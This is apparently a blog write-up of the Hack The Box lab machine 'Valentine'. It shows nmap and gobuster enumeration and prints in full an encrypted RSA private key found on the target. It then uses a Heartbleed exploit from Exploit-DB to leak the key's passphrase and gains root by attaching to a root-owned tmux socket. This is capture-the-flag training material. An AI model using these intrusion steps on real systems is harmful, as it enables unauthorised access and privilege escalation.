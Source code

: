 # Valentine

![image](https://github.com/sec-fortress/sec-fortress.github.io/assets/132317714/0928706d-54c9-484c-a320-03107bd816ba)

## Difficulty = Easy
---

Let run Our nmap scan :

```sh
# Nmap 7.94 scan initiated Fri Aug 11 15:00:18 2023 as: nmap -p22,80,443 --min-rate=1000 -sCV -v -oN nmap.txt 10.10.10.79
Nmap scan report for 10.10.10.79
Host is up (0.30s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 96:4c:51:42:3c:ba:22:49:20:4d:3e:ec:90:cc:fd:0e (DSA)
|   2048 46:bf:1f:cc:92:4f:1d:a0:42:b3:d2:16:a8:58:31:33 (RSA)
|_  256 e6:2b:25:19:cb:7e:54:cb:0a:b9:ac:16:98:c6:7d:a9 (ECDSA)
80/tcp  open  http     Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.2.22 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| ssl-cert: Subject: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Issuer: commonName=valentine.htb/organizationName=valentine.htb/stateOrProvinceName=FL/countryName=US
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2018-02-06T00:45:25
| Not valid after:  2019-02-06T00:45:25
| MD5:   a413:c4f0:b145:2154:fb54:b2de:c7a9:809d
|_SHA-1: 2303:80da:60e7:bde7:2ba6:76dd:5214:3c3c:6f53:01b1
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_ssl-date: 2023-08-11T19:00:50+00:00; 0s from scanner time.
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Aug 11 15:00:53 2023 -- 1 IP address (1 host up) scanned in 35.14 seconds
```

We have a website (Port 80/443), Navigating there gives us this

![](https://i.imgur.com/qOqImDC.png)

Nothing much, just an image file, let us `view-source` :

![](https://i.imgur.com/x9p2z0M.png)

Still nothing, let check directory-bruteforce

```sh
sec-fortress@Pwn-F0rk-3X3C:~/HTB/Valentine$ gobuster dir -u http://10.10.10.79/ -w ~/SecLists-master/Discovery/Web-Content/common.txt -b 401,400,400,501,402,404,403 -x bak,zip,php,PHP,txt,html -t 40 2>/dev/null
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.79/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /home/sec-fortress/SecLists-master/Discovery/Web-Content/common.txt
[+] Negative Status codes:   400,501,402,404,403,401
[+] User Agent:              gobuster/3.5
[+] Extensions:              php,PHP,txt,html,bak,zip
[+] Timeout:                 10s
===============================================================
2023/08/11 15:02:01 Starting gobuster in directory enumeration mode
===============================================================
/decode.php           (Status: 200) [Size: 552]
/decode               (Status: 200) [Size: 552]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.79/dev/]
/encode               (Status: 200) [Size: 554]
/encode.php           (Status: 200) [Size: 554]
/index                (Status: 200) [Size: 38]
/index.php            (Status: 200) [Size: 38]
/index.php            (Status: 200) [Size: 38]

===============================================================
2023/08/11 15:12:09 Finished
===============================================================
```

Nice let us check /dev first :

![](https://i.imgur.com/js9aULK.png)

Checking `notes.txt` Looks like we have a note to fix our encoder/decoder :

![](https://i.imgur.com/SlI3l6k.png)

Let check `hype_key` :

![](https://i.imgur.com/aRpJARY.png)

We have an hexadecimal encoded string, let decode it :

![](https://i.imgur.com/hOLDHiT.png)

Since the giving decoder can't decode it and our notes.txt was to fix the encoder/decoder, let us use a third party decoder :

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```

- save it into a file with the name `id_rsa`
- Grant permissions with `chmod 600 id_rsa`
- Run `ssh -i id_rsa dev@10.10.10.79` 

![](https://i.imgur.com/SldqtLb.png)

Looks like we are been asked for the passphrase of the id_rsa key, here is why :

>With SSH keys, if someone gains access to your computer, the attacker can gain access to every system that uses that key. **To add an extra layer of security**,
the passphrase is just a key used to encrypt the file that contains the RSA key, using a symmetric cipher (usually DES or 3DES). In order to use the key for public-key encryption, you first need to decrypt its file using the decryption key


- after much research i noticed that the port 443/https website is vulnerable to `# OpenSSL 1.0.1f TLS Heartbeat Extension - 'Heartbleed' Memory Disclosure (Multiple SSL/TLS Versions)`


Tip:
> Always use nmap with the `--script vuln` switch, it brings fortune 😆

Picked up an exploit from [here](https://www.exploit-db.com/exploits/32764) and ran it :

![](https://i.imgur.com/UungXfE.png)

Note: you might need to run the exploit more than once before it works, i ran it 4 times 😭

- Now we've got the key in base64 encoded format, decoding it gives us the passphrase :

![](https://i.imgur.com/9eTvyyL.png)

Let login via ssh again with the user `hype` , but before that add this to your ~/.ssh/config file, if you don't have a config file, then create it with `touch ~/.ssh/config` and add this text to it :

```
Host *
    PubkeyAcceptedKeyTypes +ssh-rsa
```

![](https://i.imgur.com/MRelCBv.png)
### Successfully logged in, let do privilege escalation

- let run `ls -a` in the home directory :

![](https://i.imgur.com/hX43KPJ.png)

- Nothing much, doing `ps aux` gave me an unusual tmux snapshot running as root

![](https://i.imgur.com/iw06g1Y.png)


- using the command `/usr/bin/tmux -S /.devs/dev_sess` , then gave us root :

![](https://i.imgur.com/fEzrwT2.png)

Baaaannnnnnkaiiii🧘‍♀️

<button onclick="window.location.href='https://sec-fortress.github.io';">Back To Home螥</button>


